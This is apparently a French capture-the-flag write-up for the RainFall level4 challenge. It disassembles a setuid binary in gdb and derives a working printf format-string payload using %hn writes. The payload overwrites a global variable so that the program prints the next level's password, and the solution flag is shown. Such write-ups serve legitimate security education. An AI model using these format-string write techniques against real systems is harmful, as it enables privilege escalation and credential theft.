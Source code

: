 # 04 - Format string 2

- On se connecte en tant que level4:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ gdb level4
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

- Voyons les parties les plus importantes du programme:
```
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
```
>Prompt stdin pour 512 octets dans une zone mémoire de 520 octets.

```
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
```
>Appelle la fonction `<p>` avec notre buffer en paramètre.

```
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
```
>La fonction `<p>` appelle `<printf@plt>` avec notre buffer en premier argument.

```
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
```
>`0x8049810 <m>:  0x00000000`

```
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
```
>`0x8048590: "/bin/cat /home/user/level5/.pass"`

- Après l'appel à `<p>`, le programme compare la valeur située en `0x8049810` avec la constante hexadécimale 102 5544 (16 930 116 en décimal). Si les deux valeurs diffèrent, il retourne, sinon, il affiche le flag.

- Donc il faut utiliser `<printf@plt>` pour assigner la valeur 16930116 en `0x8049810`, on pourrait le faire comme ceci:
>`echo -ne '\x10\x98\x04\x08 %16930110x %12$n \n' | ./level4`


- Ça marcherais, mais cette fois, divisions cette assignation de 4 octets (`%n`) en deux assignations de 2 octets chacune (`%hn`). On doit écrire 16 930 116, qui est 102 5544 en hexadécimal:
>Low order bytes = 5544 (21 828 in decimal)

>High order bytes = 0102 (258 in decimal)


- On fera donc une assignation en `0x8049810` et une autre en `0x8049812`. `0x8049810` contiendra les octets représentant la valeur la plus significative (ici, les octets de faible poids), et `0x8049812` contiendra les octets représentant la valeur la moins significative (ici, les octets de poids fort).

- Le payload donné à `<printf@plt>` sera donc:
>`\x12\x98\x04\x08\x10\x98\x04\x08 %VALUE1x %12$hn %VALUE2x %13$hn`

>`VALUE1 (0x8049812)` ==> 258 - 8 bytes for the addresses - 2 bytes for the spaces = **248**

>`VALUE2 (0x8049810)` ==> 21 828 - 258 - 2 bytes for the spaces = **21 568**


```
echo -ne '\x12\x98\x04\x08\x10\x98\x04\x08 %248x %12$hn %21568x %13$hn' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```